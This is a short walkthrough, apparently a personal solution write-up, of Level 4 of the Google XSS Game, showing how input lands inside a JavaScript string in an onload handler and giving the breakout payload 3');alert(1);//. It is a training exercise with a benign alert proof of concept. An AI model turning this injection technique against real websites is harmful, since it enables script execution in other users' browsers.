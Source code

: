# Google XSS Game – Level 4: JavaScript Context Injection

---

## 🎯 Mission Description  
User input must be properly escaped depending on the context it’s inserted into.  
This level demonstrates how dangerous it can be when input is injected **directly into JavaScript code** — not just HTML.

---

## 🎯 Mission Objective  
Inject a script that triggers `alert(1)` inside the app.  
✅ The injection point is **inside a JavaScript function parameter**, not regular HTML.

---

## 🧪 Steps (My Approach)

1. 🔍 Viewed the source code and found:

   ```html
   <img src="/static/loading.gif" onload="startTimer('3');" />
   ```

   → The value `3` is passed as a string to the `startTimer()` function.  
   → This is our injection point.

---

2. ❌ First try: inject HTML special chars

   ```
   X">x
   ```

   Result:

   ```html
   <img src="/static/loading.gif" onload="startTimer('X&quot;&gt;x');" />
   ```

   → The characters were escaped. HTML injection blocked.

---

3. ✅ New idea: inject inside the JavaScript function

   - Close the string and function call:
     ```
     3');
     ```

   - Inject the payload:
     ```
     alert(1);
     ```

   - Comment out the rest:
     ```
     //
     ```

---

## ✅ Final Payload

```javascript
3');alert(1);//
```

🔎 Which results in:

```html
<img src="/static/loading.gif" onload="startTimer('3');alert(1);//');" />
```

💥 `alert(1)` gets executed — mission complete!

---

## 🧠 Notes  
- This is a **JavaScript context XSS**, not HTML.  
- Injection point is inside a JS string → need to **close the string properly** before injecting.  
- No need to break out of HTML attributes — just craft smart payloads within the JS.

---

## ✅ Status: Solved 🎉
